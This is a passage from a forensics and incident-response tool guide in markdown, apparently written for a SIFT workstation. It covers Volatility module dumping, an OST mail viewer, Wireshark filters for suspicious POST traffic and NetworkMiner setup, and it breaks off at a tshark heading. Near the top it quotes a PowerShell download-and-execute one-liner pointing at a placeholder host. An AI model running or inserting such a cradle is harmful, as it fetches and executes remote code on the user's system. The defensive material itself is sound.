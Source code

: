 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```
`vol.py -f image.raw --profile=<profile> moddump -b <base_offset> --dump-dir=./`

<a name="kernel-ost-viewer"></a>
### Kernel OST viewer 
[*back to table of contents*](#b2t)

***WIN-SIFT***

This tool is useful to review a users outlook files.

1.	Mount the imaged drive through Arsenal Image Mounter.
2.	Launch Kernel OST Viewer.
3.	Navigate to; `<mounted drive letter>:/Users/<user>/AppData/Local/Microsoft/Outlook/<ost file>`

<a name="wireshark"></a>
### Wireshark
[*back to table of contents*](#b2t)

***either-SIFT***

Wireshark can be used to filter through packets and the display filters will be useful to find things that are suspicious.

**POST requests**: From a client machine or even a server POST requests are usually suspicious and in general may be rare within the environment. This can be looked at using the display filter;

`http.request.method == “POST”`

**HTTP host**: If the site that is being posted to this can be added onto the display filter with and or just search for by itself;

`http.host contains “example.com”`

<a name="networkminer"></a>
### NetworkMiner 
[*back to table of contents*](#b2t)

***LINUX-SIFT***

This can be used for some quick wins. You’ll only be able to use pcap with the free version so if you have a pcapng image then use [convert pcapng to pcap](#tshark).

To install this on the ***LINUX-SIFT*** machine I followed the following link <https://www.netresec.com/?page=Blog&month=2014-02&post=HowTo-install-NetworkMiner-in-Ubuntu-Fedora-and-Arch-Linux>.

First follow Step 1 for Ubuntu and then check the version of Mono. If need by go to the link it gives and just install the new Mono which will update what you have. 

Then follow step 2 but use the link in the green box with the `wget` instead. This is because we want version 2.4.

Finally create a line in the users `.bashrc`;

`alias NetworkMiner='mono /opt/NetworkMiner_2-4/NetworkMiner.exe'`

This is so in a terminal you can simply type `NetworkMiner` to launch the program.

<a name="tshark"></a>
### tshark 
[*back to table of contents*](#b2t)

***LINUX-SIFT***

```